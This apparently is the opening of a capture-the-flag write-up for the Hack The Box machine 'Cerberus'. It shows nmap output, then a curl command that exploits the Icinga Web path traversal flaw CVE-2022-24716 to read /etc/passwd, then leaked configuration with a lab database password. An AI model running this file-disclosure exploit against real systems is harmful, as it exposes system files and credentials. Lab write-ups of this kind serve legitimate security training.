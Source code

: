 
# Cerberus

![logo](https://github.com/InfoSec-Crow/Writeups/blob/main/htb/machines/Cerberus/Cerberus.png)

## nmap:
    
    ```
    PORT      STATE SERVICE REASON  VERSION
    8080/tcp  open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
    | http-title: Site doesn't have a title (text/html; charset=UTF-8).
    |_Requested resource was /icingaweb2/authentication/login?_checkCookie=1
    | http-methods:
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    62728/tcp open  msrpc   syn-ack Microsoft Windows RPC
    ```
    

# **Icinga Web**

[Path Traversal Vulnerabilities in Icinga Web](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

## **Arbitrary File Disclosure — `CVE-2022-24716`**

We can read files without authentication!

- `curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd`

### Check `icingaweb2` files

[Icinga/Icinga2Installation - Debian Wiki](https://wiki.debian.org/Icinga/Icinga2Installation)

```
[Administrators]
users = "matthew"
permissions = "*"
groups = "Administrators"
unrestricted = "1"
```

```
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"
```
